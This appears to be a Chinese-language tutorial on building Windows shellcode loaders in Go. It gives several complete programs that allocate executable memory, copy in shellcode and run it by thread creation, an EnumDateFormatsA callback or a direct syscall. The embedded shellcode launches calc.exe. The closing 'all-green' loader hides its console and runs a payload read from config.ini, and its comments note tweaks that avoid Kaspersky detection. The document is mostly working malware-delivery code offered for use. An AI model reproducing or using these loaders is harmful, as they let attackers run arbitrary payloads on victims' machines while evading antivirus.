





# 1.加载器回顾

还记得之前讲的shellcode和加载器吗?

我们的shellcode无法单独运行, 需要借助加载器, 而加载器的功能就是帮助shellcode运行起来, shellcode想要运行起来呢, 就需要我们把它放到内存中, 然后通过某些方式让其运行, 所以我们加载器要实现的代码就是:

- 申请内存
- 复制shellcode到开辟的内存中
- 通过某些方式运行shellcode

# 2.go语言调用Windows api

而关于内存的一些操作需要借助Windows api, 所以我们要想使用go语言编写加载器.第一个要解决的问题就是如何使用go语言调用Windows api.

## 2.1syscall包

syscall包，提供了与操作系统进行交互的底层函数，即我们需要的那些Windows API。因为是内置的，直接导入即可使用，不需要下载。

```golang
package  main

import "syscall"

func main() {
}
```

通过调用Windows api编写加载器，运行calc的shellcode

```golang
package main

import (
	"syscall"
	"unsafe"
)

func main() {
	// 1.加载kernel32.dll,MustLoadDLL
	kernel32 := syscall.MustLoadDLL("kernel32.dll")
	// 2.获取windows api,MustFindProc
	VirtualAlloc := kernel32.MustFindProc("VirtualAlloc")
	RtlMoveMemory := kernel32.MustFindProc("RtlMoveMemory")
	CreateThread := kernel32.MustFindProc("CreateThread")
	WaitForSingleObject := kernel32.MustFindProc("WaitForSingleObject")
	sc := []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50,
		0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48,
		0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48,
		0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b,
		0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48,
		0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34,
		0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8,
		0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40,
		0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
		0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
		0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba,
		0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd,
		0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05,
		0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c,
		0x63, 0x2e, 0x65, 0x78, 0x65, 0x00}
	// 3.申请内存, 调用通过 函数名.Call() 调用
	// 返回三个值,第一个是内存地址
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
	// 4.复制sc到申请的内存中
	// &sc[0],因为在go中指针不安全,所以要使用 unsafe.Pointer类型
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	// 5.创建线程
	thread, _, _ := CreateThread.Call(0, 0, addr, 0, 0, 0)
	// 6.等待线程创建
	WaitForSingleObject.Call(thread, 0xFFFFFFFF)
	// 7.关闭 DLL
	kernel32.Release()
}
```



查看导入表


在 Windows 上， `VirtualAlloc` 、` VirtualProtect `、` CreateThread` 、 `WaitForSingleObject `等函数都是在` kernel32.dll `中导出的。对于` RtlMoveMemory `，它是在` ntdll.dll `中导出的。由于 Go 编译器的一些限制，它不能直接从` ntdll.dll `中导入 `RtlMoveMemory `，因此 Go 会通过 `kernel32.dll` 中的 `RtlMoveMemory `封装函数来调用。

因此，在生成的 PE 文件中，只有` kernel32.dll `的导出函数会在导入表中直接显示。实际上，`RtlMoveMemory` 和其他函数会在运行时通过 `kernel32.dll` 进行间接调用。这是 Go 编译器和运行时环境的设计选择.

在上述的 Go 代码中， `VirtualProtect` 函数是通过 `MustFindProc` 从 `kernel32.dll` 中获取的，但在生成的 PE 文件中没有在导入表中直接列出 `VirtualProtect` 。这是因为 `VirtualProtect `函数也是在运行时通过 `kernel32.dll` 的封装函数进行间接调用。

在实际的 Windows 系统中， `VirtualProtect `函数是在 `kernel32.dll` 中导出的，但是 Go 编译器在处理这个函数时，可能会采用一些特殊的处理方式，使其不会直接出现在导入表中。这并不影响程序的正常运行，因为 Go 运行时会负责在运行时解析这些函数的地址并进行调用.

# 3.go编写加载器

## 3.1创建线程运行

```golang
package main

import (
	"syscall"
	"unsafe"
)

func main() {
	// 1.加载kernel32.dll,MustLoadDLL
	kernel32 := syscall.MustLoadDLL("kernel32.dll")
	// 2.获取windows api,MustFindProc
	VirtualAlloc := kernel32.MustFindProc("VirtualAlloc")
	RtlMoveMemory := kernel32.MustFindProc("RtlMoveMemory")
	CreateThread := kernel32.MustFindProc("CreateThread")
	WaitForSingleObject := kernel32.MustFindProc("WaitForSingleObject")
	sc := []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50,
		0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48,
		0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48,
		0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b,
		0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48,
		0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34,
		0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8,
		0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40,
		0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
		0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
		0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba,
		0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd,
		0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05,
		0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c,
		0x63, 0x2e, 0x65, 0x78, 0x65, 0x00}
	// 3.申请内存, 调用通过 函数名.Call() 调用
	// 返回三个值,第一个是内存地址
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
	// 4.复制sc到申请的内存中
	// &sc[0],因为在go中指针不安全,所以要使用 unsafe.Pointer类型
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	// 5.创建线程
	thread, _, _ := CreateThread.Call(0, 0, addr, 0, 0, 0)
	// 6.等待线程创建
	WaitForSingleObject.Call(thread, 0xFFFFFFFF)
	// 7.关闭 DLL
	kernel32.Release()
}
```

## 3.2回调函数运行

EnumDateFormatsA

```golang
package main

import (
	"syscall"
	"unsafe"
)

func main() {
	// 1.加载kernel32.dll
	kernel32 := syscall.MustLoadDLL("kernel32.dll")
	//user32 := syscall.MustLoadDLL("user32.dll")
	//ntdll := syscall.MustLoadDLL("ntdll.dll")
	// 2.获取windows api
	VirtualAlloc := kernel32.MustFindProc("VirtualAlloc")
	RtlMoveMemory := kernel32.MustFindProc("RtlMoveMemory")
	procEnumDateFormatsA := kernel32.MustFindProc("EnumDateFormatsA")
	sc := []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50,
		0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48,
		0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48,
		0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b,
		0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48,
		0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34,
		0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8,
		0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40,
		0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
		0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
		0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba,
		0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd,
		0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05,
		0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c,
		0x63, 0x2e, 0x65, 0x78, 0x65, 0x00} // 3.申请内存, 调用通过 函数名.Call() 调用
	// 返回三个值,第一个是内存地址
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
	// 4.复制sc到申请的内存中
	// &sc[0],因为在go中指针不安全,所以要使用 unsafe.Pointer类型
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	// 5.回调函数调用
	procEnumDateFormatsA.Call(addr, 0, 0)
	// 7.关闭 DLL
	kernel32.Release()
}

```

其他回调函数

```
https://learn.microsoft.com/zh-cn/windows/win32/api/winnls/#callback-functions
```

## 3.3系统调用运行

```golang
package main

import (
	"syscall"
	"unsafe"
)

func main() {
	// 1.加载kernel32.dll
	kernel32 := syscall.MustLoadDLL("kernel32.dll")
	//user32 := syscall.MustLoadDLL("user32.dll")
	//ntdll := syscall.MustLoadDLL("ntdll.dll")
	// 2.获取windows api
	VirtualAlloc := kernel32.MustFindProc("VirtualAlloc")
	RtlMoveMemory := kernel32.MustFindProc("RtlMoveMemory")
	sc := []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50,
		0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48,
		0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48,
		0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b,
		0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48,
		0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34,
		0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8,
		0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40,
		0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
		0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
		0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba,
		0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd,
		0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05,
		0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c,
		0x63, 0x2e, 0x65, 0x78, 0x65, 0x00} // 3.申请内存, 调用通过 函数名.Call() 调用
	// 返回三个值,第一个是内存地址
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
	// 4.复制sc到申请的内存中
	// &sc[0],因为在go中指针不安全,所以要使用 unsafe.Pointer类型
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	// 5.回调函数调用
	syscall.Syscall(addr, 0, 0, 0, 0)
	// 7.关闭 DLL
	kernel32.Release()
}

```

# 4.x步全绿加载器

默认版本

```golang
package main

import (
	"fmt"
	"github.com/gonutz/ide/w32"
	"os"
	"syscall"
	"unsafe"
)

// 这部分没问题
func closeWindows(commandShow uintptr) { // 卡巴斯基并不查杀这个
	console := w32.GetConsoleWindow()
	if console != 0 {
		_, consoleProcID := w32.GetWindowThreadProcessId(console)
		if w32.GetCurrentProcessId() == consoleProcID {
			w32.ShowWindowAsync(console, commandShow)
		}
	}
}
func main() {
	// 这部分没问题
	closeWindows(w32.SW_HIDE)
	byteSlice, err := os.ReadFile("config.ini")
	if err != nil {
		fmt.Println("config file is not exist")
		return
	}
	kernel32 := syscall.MustLoadDLL("kernel32.dll")
	RtlCopyMemory := kernel32.MustFindProc("RtlCopyMemory")
	VirtualAlloc := kernel32.MustFindProc("VirtualAlloc")
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(byteSlice)), 0x1000, 0x40) // 卡巴斯基查杀 0x1000|0x2000 的内存申请
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&byteSlice[0])), uintptr(len(byteSlice)))
	syscall.Syscall(addr, 0, 0, 0, 0)
}

```

编译命令

```
go build -o main.exe -ldflags="-w -s" -trimpath main.go
```



全绿版本

```golang
package main

import (
	"fmt"
	"github.com/gonutz/ide/w32"
	_ "github.com/spf13/cobra"
	"os"
	"syscall"
	"unsafe"
)

// 这部分没问题
func closeWindows(commandShow uintptr) { // 卡巴斯基并不查杀这个
	console := w32.GetConsoleWindow()
	if console != 0 {
		_, consoleProcID := w32.GetWindowThreadProcessId(console)
		if w32.GetCurrentProcessId() == consoleProcID {
			w32.ShowWindowAsync(console, commandShow)
		}
	}
}
func main() {
	// 这部分没问题
	closeWindows(w32.SW_HIDE)
	byteSlice, err := os.ReadFile("config.ini")
	if err != nil {
		fmt.Println("config file is not exist")
		return
	}
	kernel32 := syscall.MustLoadDLL("kernel32.dll")
	RtlCopyMemory := kernel32.MustFindProc("RtlCopyMemory")
	VirtualAlloc := kernel32.MustFindProc("VirtualAlloc")
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(byteSlice)), 0x1000, 0x40) // 卡巴斯基查杀 0x1000|0x2000 的内存申请
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&byteSlice[0])), uintptr(len(byteSlice)))
	syscall.Syscall(addr, 0, 0, 0, 0)
}

```





